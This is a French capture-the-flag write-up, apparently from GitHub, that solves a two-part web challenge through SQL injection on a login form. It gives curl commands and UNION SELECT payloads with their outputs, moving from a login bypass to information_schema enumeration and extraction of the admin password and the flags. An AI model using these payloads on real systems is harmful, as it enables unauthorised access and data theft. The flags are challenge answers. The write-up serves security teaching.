 # Comme dans un Moul'1

> Ici les exemples sont exploités avec curl, mais bien entendu cela fonctionne tout aussi bien directement avec le formulaire dans le navigateur  

## Partie 1

Ici, on est face à un formulaire.  
Le premier réflexe pourrait être de tester si les inputs sont protégés contre les injections :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' OR 1=1 LIMIT 1#&password=" | grep INEAT
```

refexe somme toute plutôt efficace je dois dire : `<h1 class="corb-flag">INEAT{c0nn3xi0n_v4lid33}</h1>`

## Partie 2

On est donc ici face au même site que le précédent. Il faut donc trouver une méthode pour exploiter ça un peu plus en profondeur.
Partons donc à la recherche des colonnes de notre bdd :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' UNION SELECT 1 #&password=" | grep INEAT
```

Parfait, notre champ username est donc injectable : `Bienvenue 1!`  
On peut maintenant commencer à retrouver la structure de notre bdd au travers de ce champ :

```text
' UNION SELECT user() #
 <-- level2@172.27.0.3 --> 
 
' UNION SELECT database() #
<-- level2 -->

' UNION SELECT table_schema FROM information_schema.tables WHERE table_schema != 'information_schema' #
<-- level 2 -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'username' #
<-- users -->

' UNION SELECT username FROM users WHERE 1=1 LIMIT 1 #
<-- administrator -->

' UNION SELECT password FROM users WHERE username = 'administrator' #
<-- Bienvenue this is a very complexe password! So proud :)! -->
```

Rien de très intéresant de ce côté, on va donc chercher une table qui contiendrait un champ "flag"

```text
' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 0,1#
<-- INNODB_SYS_TABLES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 1,2#
<-- INNODB_SYS_TABLESPACES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 2,3#
<-- my_secret_table -->
```

Ah, on tiens quelque chose d'intéressant (qu'on aurait pu avoir un peu plus tôt si on avait été un peu patient, j'en convient..)  
On peut vérifier que notre table a bien un colonne "flag" pour en avoir le coeur net :

 ```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'my_secret_table' #
<-- flag -->
```

On peut donc récupérer le flag
```
' UNION SELECT flag FROM my_secret_table #
<-- INEAT{U_f1nD_th3_s3cret_T4ble} -->
```
